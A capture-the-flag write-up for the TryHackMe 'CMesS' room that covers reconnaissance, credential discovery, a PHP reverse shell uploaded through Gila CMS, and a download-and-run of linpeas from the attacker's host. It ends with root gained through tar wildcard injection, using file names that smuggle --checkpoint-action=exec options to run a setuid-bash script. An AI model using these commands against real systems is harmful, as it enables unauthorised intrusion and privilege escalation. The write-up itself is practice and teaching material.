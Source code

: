 # TryHackMe CMesS

- [Room](https://tryhackme.com/room/cmess)

## Nmap

```bash
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.125.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-28 12:09 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.20% done
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.26% done
Nmap scan report for cmess.thm (10.10.125.143)
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (95%), Linux 3.16 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (92%), Linux 3.0 - 3.2 (92%), Linux 3.0 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1289.07 seconds
```

## Port 80

![image](https://user-images.githubusercontent.com/96747355/176236230-0ba5c004-d17a-4a12-a78e-0ac29620f9ca.png)    
- When googling we find [this](https://www.cvedetails.com/cve/CVE-2020-5514/) (needs to be authenticated)  
- We have a robots.txt  
![image](https://user-images.githubusercontent.com/96747355/176236371-39a429f6-3054-44b6-af45-396859476a4b.png)  
- With gobuster we found: /login and /admin
- Let's look for subdomain `wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm" --hw 290` 
- We remove pages with 290 words because it is a not found response so not relevant for us even though the response code is 200. W find dev subdomain let's add it to /etc/hosts `10.10.125.143 dev.cmess.thm`
- We find a few usernames and a username password combination! Let's try it!
![image](https://user-images.githubusercontent.com/96747355/176244503-a9fe3480-a4e1-4b7d-b3d0-8429c7099b10.png)  
- And it works!  
![image](https://user-images.githubusercontent.com/96747355/176245591-17c1872a-77f9-424d-812e-df694ba131b9.png)  
- In the dashboard there is a feature called file manager. If we check out the config file we find a few interesting info including another password that we keep aside for later.  
![image](https://user-images.githubusercontent.com/96747355/176247384-c2effae3-bac8-4dd5-ba47-31c7517ac477.png)  
- We can try the CVE previously found with google 
- let's follow this blog [post](https://infosecdb.wordpress.com/2020/01/05/gilacms-1-11-8-remote-code-execution/)
  - => NOT WORKING
- What's working though is to use the feature to download a php reverse shell this way we get a shell. Our file goes in the asset folder  
![image](https://user-images.githubusercontent.com/96747355/176249759-aed47f3b-5cc1-4e3b-a6fd-cf55e9b88176.png)  
- Then we just need to access to the url `http://cmess.thm/assets/php-reverse-shell.php` and we get our shell  
![image](https://user-images.githubusercontent.com/96747355/176250190-a5a5c620-0ec1-45cf-8574-327d18be0275.png)  
- We stabilize our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Lets get a privesc enum script in our target. I am a fan of linpeas so I am gonna use it here.
  - `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
  - `python3 -m http.server 80`
  - And from our target we type `wget http://10.13.22.56/linpeas.sh` (we need to be in the tmp folder to successfully write the file)
  - We make it executable `chmod +x linpeas.sh` and we launch it `./linpeas.sh`

## Lateral movement

## Interesting output from linpeas  

- [Kernel exploits](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits)  
![image](https://user-images.githubusercontent.com/96747355/176254540-808b1e35-3040-47c3-b075-2f6e1b0c6fb9.png)  

- [Sudo version](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version)
![image](https://user-images.githubusercontent.com/96747355/176254372-dc5e27df-f5c4-4f5b-a076-75771f4b478c.png)  

- List of cve we could try out
```
[+] [CVE-2017-16995] eBPF_verifier
[+] [CVE-2016-5195] dirtycow
[+] [CVE-2016-5195] dirtycow 2
[+] [CVE-2021-3156] sudo Baron Samedit 2
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
[+] [CVE-2017-7308] af_packet
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
[+] [CVE-2017-6074] dccp
[+] [CVE-2017-1000112] NETIF_F_UFO
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
[+] [CVE-2016-8655] chocobo_root
[+] [CVE-2016-4557] double-fdput()
[+] [CVE-2021-3156] sudo Baron Samedit
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
[+] [CVE-2019-18634] sudo pwfeedback
   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
[+] [CVE-2019-15666] XFRM_UAF
[+] [CVE-2018-1000001] RationalLove
[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64
[+] [CVE-2017-1000253] PIE_stack_corruption
[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE
   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
[+] [CVE-2016-2384] usb-midi
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
[+] [CVE-2016-0728] keyring
      CVE-2016-8655
      CVE-2018-14665
      CVE-2017-16695
```
- other interesting things to check
```
/etc/cron.d:
-rw-r--r--  1 root root  191 Feb  6  2020 popularity-contest
*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -  
-rw------- 1 root root 317 Feb  6  2020 /etc/mysql/debian.cnf
drwxr-xr-x 2 root root 4096 Feb  6  2020 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Feb  6  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
/usr/share/doc/openssh-client/examples/sshd_config 
/opt/.password.bak
```
- The sudo version is not successful cause our version does not seem vulnerable.
- Let's check this file `/opt/.password.bak`  
![image](https://user-images.githubusercontent.com/96747355/176259230-96bf43f5-7bd2-4b84-b7f8-50b34028b1d9.png)  
- We have another password
- Let's try it if we su andre it works! let's ssh as andre  
![image](https://user-images.githubusercontent.com/96747355/176259522-58a59463-1c0c-474e-b8d7-b082ec8e0329.png)  
- Let's grab the user flag  
![image](https://user-images.githubusercontent.com/96747355/176260214-7478952b-3cac-45e3-851f-db27f15fd50a.png)  

- Let's now enumerate way to privesc from Andre's user

## Privesc

### Linepeas as Andre

- Our home is in the path. [Ressources for this on hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
![image](https://user-images.githubusercontent.com/96747355/176260810-dfe4817a-5460-4895-b054-70cef795512b.png)
This seems to be an interesting cron job  
![image](https://user-images.githubusercontent.com/96747355/176261237-b9c710fc-e755-4164-b59f-d305cbb5d246.png)  
- This is doing a backup with a wildcard. We can try to abuse this.
- Let's go to the backup folder
- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh` we create a malicious bash
- `touch /home/andre/backup/--checkpoint=1` when the scheduled script is going to read the home directory it will have a file named as a tar command, so it will interpret it. This command displays a status message every 1
- `touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh` then this command is going to make and action when the checkpoint we created before is hit
- Let's now try to launch our script `/tmp/bash -p`  
- It works!  
![image](https://user-images.githubusercontent.com/96747355/176267325-6ea9c1b2-b09f-4688-8fdf-4c84b470ad62.png)  
- Let's grab the last flag  
![image](https://user-images.githubusercontent.com/96747355/176267587-82e56ca1-047e-410c-a5c5-b2a11e87d342.png)  

